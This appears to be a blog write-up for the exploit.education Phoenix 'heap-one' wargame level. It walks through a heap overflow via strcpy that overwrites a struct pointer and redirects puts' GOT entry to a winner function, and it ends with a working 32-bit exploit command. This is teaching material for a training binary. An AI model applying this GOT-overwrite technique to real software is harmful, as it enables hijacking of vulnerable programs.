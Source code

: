 ```yaml
---
layout: post
title: "exploit.education Phoenix - Heap 0x1"
category: CTF 
tagline:
tags: [binary, exploitation, phoenix, wargame, ctf, learning]
---
```

{% include JB/setup %}

# Heap 1

Write-up for: [https://exploit.education/phoenix/heap-one/](https://exploit.education/phoenix/heap-one/).

<!--more-->

## The vulnerability

In this challenge, we have two calls to `strcpy` without bounds checking. This can result in memory
corruption. The goal is to abuse this fact to redirect control flow to the `winner` function.

## Exploit

The struct in this program contains a `char` pointer. Memory for this is allocated on the heap with
one `malloc(8)` call each. Then, using `strcpy`, user input is copied to the memory location pointed to
by `i1->name`. The key to exploiting this program is using the first `strcpy` to override
the pointer content of `i2->name`. By doing so we can write arbitrary data to an arbitrary memory location. This can be
leveraged to overwrite an entry in the GOT to redirect code execution.

```c
struct heapStructure {
    int priority;
    char *name;
};
...
i1->name = malloc(8);
...
i2->name = malloc(8);
...
strcpy(i1->name, argv[1]);
strcpy(i2->name, argv[2]);
```

We start by analyzing the normal execution of the program to determine the relevant memory layout.
By looking at the disassembly (we are working with the 64-bit version here), we can see that `rsi` points to the first argument value:

```
0x400ab9 <main+124>       mov    rsi, rdx
0x400abc <main+127>       mov    rdi, rax
→   0x400abf <main+130>       call   0x4007f0 <strcpy@plt>

$rsi   : 0x00007fffffffe7e2  →  0x0041414141414141 ("AAAAAAA"?)
```

This value is copied to the address stored in `rdi`:

```
$rdi   : 0x00007ffff7ef6030
```

This means, `i1->name` points to this address. This is the address returned by the call to `malloc(8)`.
Repeating this step for `i2` reveals this address:

```
$rsi   : 0x00007fffffffe7ea  →  0x0042424242424242 ("BBBBBBB"?)
$rdi   : 0x00007ffff7ef6070  →  0x0000000000000000
```

This results in an offset of 0x40 bytes between `i1->name` and `i2->name`.

We also need to find the structs in memory. Remember, our goal is to overwrite the *address* of `i2->name` so
that the call to strcpy writes data to an arbitrary location. The location of the string itself is not as interesting to us as attackers. But we can use the location of the string to look at the surrounding heap memory.

```
*i1 (pointer on the stack)
    -> i1 (struct on the heap)
     - priority (integer)
     - name pointer(char *)
        -> name (8 bytes on the heap)

gef➤  x/32g $rdi-0x60
0x7ffff7ef6010: 0x0000000000000001      0x00007ffff7ef6030
0x7ffff7ef6020: 0x0000000000000000      0x0000000000000021
0x7ffff7ef6030: 0x0041414141414141      0x0000000000000000
0x7ffff7ef6040: 0x0000000000000000      0x0000000000000021
0x7ffff7ef6050: 0x0000000000000002   -->0x00007ffff7ef6070<--
0x7ffff7ef6060: 0x0000000000000000      0x0000000000000021
0x7ffff7ef6070: 0x0042424242424242      0x0000000000000000
0x7ffff7ef6080: 0x0000000000000000      0x00000000000fff81
0x7ffff7ef6090: 0x0000000000000000      0x0000000000000000
0x7ffff7ef60a0: 0x0000000000000000      0x0000000000000000
```

This is the heap memory after both strcpy calls. This shows us the memory layout we are interested in:

```
i1->priority (1)
address of i1->name
padding / control data
i1->name
padding / control data
i2->priority (2)
address of i2->name (TO BE OVERWRITTEN)
padding / control data
i2->name
```

With this information we can now overwrite the target address of the second strcpy call (the address of `i2->name`). The offset is 0x28 from `i1->name` (0x00414141....) to the address of `i2->name` (0x00007ffff7ef6070).


`gef➤  run $(python -c 'print("A"*0x28 + "BBBBBBBB" " " + "C"*7)')`

Breaking before the second strcpy shows the following situation:

```
strcpy@plt (
    $rdi = 0x4242424242424242,
    $rsi = 0x00007fffffffe7ea → 0x0043434343434343 ("CCCCCCC"?),
    $rdx = 0x00007fffffffe7ea → 0x0043434343434343 ("CCCCCCC"?)
)
```

Great! We're writing CCCCC.. to an address of our choosing (0x424242...)!
Now we need to find the GOT table entry for printf (which is optimized to be `puts`) and overwrite the value with the address of the `winner` function.

```
0x0000000000400ae7 <+170>:   call   0x400840 <puts@plt>
...
gef➤  disas 0x400840
Dump of assembler code for function puts@plt:
0x0000000000400840 <+0>:     jmp    QWORD PTR [rip+0x20398a]        # 0x6041d0 <puts@got.plt>
...
gef➤  print &winner
$1 = (<text variable, no debug info> *) 0x400af3 <winner>
```

Now we have a problem. Since we are on a 64-bit system, the actual address that we want to overwrite is `0x00000000006041d0`. That's a lot of null bytes. Since we overwrite it using `strcpy` it will terminate once it encounters a null byte. That means the resulting value will be `0x0x00007fff006041d0`. Not where want to write to :(.

Currently, I have no clue how to overcome this issue. I'll come back to this after doing more research. So for now, here is the final exploit for the 32-bit version (created using the same steps as outlined above!):

```
user@phoenix-amd64:/opt/phoenix/i486$ ./heap-one $(python -c 'import struct; print "A"*20 + struct.pack("<I", 0x804c140) + " " + struct.pack("<I", 0x804889a)')
Congratulations, you've completed this level @ 1555400694 seconds past the Epoch
```

`<I` specifies a little endian integer value. The first address (puts@got) was determined by stepping through the first call to `puts` once in order to have the address resolved.


Additional links:
[GOT and PLT for pwning](https://systemoverlord.com/2017/03/19/got-and-plt-for-pwning.html)
[GEF (GDB extension) documentation](https://gef.readthedocs.io/en/master/)
[Exploiting the heap](https://www.win.tue.nl/~aeb/linux/hh/hh-11.html)
[Azeria's amazing series on heap exploitation](https://azeria-labs.com/heap-exploitation-part-1-understanding-the-glibc-heap-implementation/)
